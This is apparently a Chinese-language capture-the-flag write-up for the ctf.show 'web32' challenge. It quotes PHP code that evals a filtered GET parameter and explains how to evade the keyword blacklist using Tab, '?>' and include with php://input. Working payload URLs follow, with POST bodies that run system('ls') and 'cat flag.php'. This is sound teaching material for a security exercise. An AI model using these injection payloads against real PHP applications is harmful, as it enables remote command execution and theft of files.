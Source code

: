 # web32

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(/i", $c)){
        eval($c);
    }

}else{
    highlight_file(__FILE__);
}
```

拦截了点，空格，单引号，\` ，`;` 和左括号

空格可以使用 `Tab` 来替换

单引号和双引号在这里可以互相替换

常见的 GET 传参参数都被拦截了，可以考虑采用 php 伪协议，例如 `php:input` 传入被拦截的关键词

`;` 可以使用 `?>` 来替换

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET["command"]?>&command=php://input

POST: <?php system("ls -lh"); ?>
```

![img](img/image_20250245-184525.png)

接下来就简单了

```plaintext
https://3d3a6884-5f1c-4caf-bf7f-f73983c25645.challenge.ctf.show/?c=include$_GET["command"]?>&command=php://input

POST: <?php system("cat flag.php"); ?>
```

![img](img/image_20250246-184611.png)
